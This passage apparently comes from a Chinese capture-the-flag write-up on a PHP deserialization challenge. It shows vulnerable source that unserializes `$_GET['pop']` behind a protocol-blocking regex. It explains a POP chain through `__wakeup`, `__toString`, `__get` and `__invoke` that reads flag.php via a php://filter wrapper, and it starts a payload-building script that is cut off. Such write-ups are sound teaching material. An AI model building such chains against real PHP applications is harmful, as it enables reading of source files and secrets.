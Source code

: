 ```php
    public function __toString()
    { //把类当作字符串使用时触发
        return $this->str->source;
    }
    public function __wakeup()
    {
        if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $p;
    public function __construct()
    {
        $this->p = array();
    }
    public function __get($key)
    { //当调用一个不存在的或者是无法访问的属性的时候被调用
        $function = $this->p;
        return $function();
    }
}
if (isset($_GET['pop'])) {
    @unserialize($_GET['pop']);
} else {
    $a = new Show;
    highlight_file(__FILE__);
}
?>
```

共有3个类，反序列化会调用**wakeup**，存在于Show类wake中的`$this->source`可控，也就是Show中` $source`变量可控

思路：将`$source`构造成一个对象Show，当`$source`为一个对象时。就会执行Show类中的toString 此时将`$str`指向Test类

` $this->str->source`：取str类中的source值，使这个值自动调用get

此时将`$p`构造成`new Modifier`

` return $function()` 表示将function当作函数返回 当类变量直接当作函数调用的时候，就会调用魔术方法`__invoke`

然后将$var构造成读取源码即可

```
$var = 'php://filter/read=convert.base64-encode/recource=flag.php';
```

payload：

```php
<?php
ini_set('memory_limit', '-1');
class Modifier
{
    protected $var = 'php://filter/read=convert.base64-
encode/resource=flag.php';
}
class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;
        $this->str = new Test();
```